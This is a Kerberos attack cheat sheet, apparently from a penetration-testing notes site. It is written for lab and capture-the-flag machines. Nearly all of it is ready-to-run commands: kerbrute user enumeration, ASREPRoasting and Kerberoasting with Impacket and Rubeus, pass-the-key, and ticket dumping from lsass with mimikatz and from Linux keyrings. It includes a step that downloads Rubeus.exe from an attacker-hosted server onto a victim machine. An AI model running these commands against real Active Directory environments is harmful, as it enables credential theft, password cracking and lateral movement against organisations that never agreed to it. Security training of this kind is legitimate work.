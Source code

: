 # Kerberos - 88

## Kerberos Information

Kerberos is a protocol for authentication, not authorization. In other words, it allows for the identification of each user who provides a secret password, but it does not validate which resources or services this user has access to. Active Directory makes use of Kerberos. Kerberos provides information about each user's privileges on this platform, but it is the responsibility of each service to determine whether the user has access to its resources.

Default Port: 88/tcp/udp

```text
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```

### Kerberos User Enumeration

We can enumerate users in Kerberos with:

```text
kerbrute userenum -d egotistical-bank.local /opt/SecLists/Usernames/xato-net-10-million-usernames.txt --dc sauna.htb
```

{% embed url="https://github.com/ropnop/kerbrute" %}

## Abuse Kerberos

### ASEPRoasting

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting. As soon as we have a username, we can use the GetNPUsers script from Impacket to retrieve its password hash:

```text
GetNPUsers.py domain/ -request -no-pass -dc-ip 10.10.10.11 -usersfile users.txt 2>/dev/null
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11
```

After capturing the hash, you can then copy the TGT in a file and try to crack it with john or hashcat.

Alternatively, we can use GetUserSPNs.py

```text
GetUsersSPNs.py htb.local/username:password@10.10.10.1671 -dc-ip 10.10.10.161 2>/dev/null
```

### Rubeus ASREPRoasting

```text
Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

### Kerberoasting from the Attacker Machine

If Kerberos is open, then you may try a Kerberoasting attack with GetUsersSPNs script from Impacket:

```text
impacket-GetUserSPNs domain.local/user:password -request 
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 10.10.10.10
```

If Kerberos was port forwarded to your localhost then you may try the following:

```text
impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
GetUserSPNs.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161
```

### Kerberoasting on Victim Machine

#### Rubeus

Rubeus.exe is one of the many tools that can perform a Kerberoasting attack on the victim machine.

Clone rubeus.exe on the attacker machine

```text
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
```

Set up a listener to transfer the file to the victim machines

```text
python -m http.server 80
```

Download the file from the attacker's machine.

```text
iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
```

Execute the Kerberoasting attack on the victim machine \(in this example we will perform a Kerberoasting with alternate credentials\)

```text
C:\temp\Rubeus.exe -> check the roating possibilities
C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
```

You will then see the hash that you can copy into the attacker machine and try to crack it with john or hashcat.

#### Rubeus Alternative

```text
Rubeus.exe kerberoast /outfile:output_TGS_file
```

```text
Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
```

### Pass the key \(PTK\)

```text
.\Rubeus.exe asktgt /domain: /user: /rc4: /ptt
```

### Harvesting Tickets from Windows

The lsass \(Local Security Authority Subsystem Service\) process, which is responsible for security in Windows, handles and stores tickets. As a result, in order to obtain tickets from a Windows machine, you must contact with lsass and request them. Only owned tickets can be retrieved as a non-administrative user; however, as a machine administrator, you can harvest all of them.

```text
mimikatz # sekurlsa::tickets /export
# Rubeus when Mimikatz doesn't work.
.\Rubeus dump [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

### Harvesting Tickets from Linux

Extract  tickets from Linux Kernel Keyrings \(read the repo\):

{% embed url="https://github.com/TarlogicSecurity/tickey" %}

```text
/tmp/tickey -i
```




